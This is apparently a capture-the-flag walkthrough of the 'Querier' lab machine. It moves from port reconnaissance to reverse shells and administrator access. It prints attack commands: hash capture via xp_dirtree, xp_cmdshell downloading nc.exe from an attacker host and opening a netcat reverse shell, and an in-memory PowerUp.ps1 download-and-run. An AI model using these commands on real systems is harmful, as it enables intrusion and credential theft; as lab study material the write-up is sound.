

# Querier

### Reconnaissance

- port 135/tcp RPC
- port 139/tcp NetBIOS
- port 445/tcp SMB 
- port 1433/tcp Microsoft SQL Server 2017 14.00.1000.00
- port 5985/tcp WinRM Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 47001/tcp WinRM Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) [Listening port for local requests](https://morgansimonsen.com/2009/12/10/winrm-and-tcp-ports/)
- port 49664-49671/tcp RPC

SMB share with anonymous access containing a spreadsheet. The spreadsheet has a connection macro for MsSQL 
with credentials in the connection string (Use binwalk to see contents of xls files as an alternative to 
LibreOffice/Excel)

### Exploitation

Connect to the database with impacket's mssqlclient.py (tried using sqlcmd but the auth fails, don't know why)

`python2.7 /opt/impacket-0.9.19/examples/mssqlclient.py QUERIER/reporting:'password'@10.10.10.125 -windows-auth`

Start Impacket's smbserver.py and use xp_dirtree to grab the mssql-svc NVLMv2 hash

`python2.7 smbserver.py -smb2support shareName /path/to/share`

`SQL> exec xp_dirtree '\\10.10.10.10\\share',1,1`

Cracking the hash gives us the mssql-svc account credentials and the ability to start a reverse shell on the 
target

Connect to the SQL server as mssql-svc and use msfconsole's `exploit/multi/script/web_delivery` to generate a 
powershell command to execute for a reverse meterpreter shell

Enable and use `xp_cmdshell` to execute the powershell command giving us a reverse shell as mssql-svc

Alternatively, host nc.exe and upload it to the target 

`xp_cmdshell powershell -c Invoke-WebRequest 10.10.10.10:8000/nc.exe -OutFile C:\Reports\nc.exe`

Start a listener on the attacking machine and run nc.exe on the target to get a reverse shell

`xp_cmdshell C:\Reports\nc.exe 10.10.10.10 4444 -e cmd.exe`

### Privilege Escalation

certutil didn't work for downloading files so we can use a python ftp server or Invoke-WebRequest to upload 
winpeas, Sherlock, PowerUp, etc. or use powershell to execute the files in memory

`python -m pyftpdlib -p 21 --write`

`echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/PowerUp.ps1') | powershell -noprofile -`

Using PowerUp.ps1 we can find the Administrator credentials in a cached GPP file and use psexec.py to gain a 
system shell

PowerUp.ps1 also shows a vulnerable service binary path
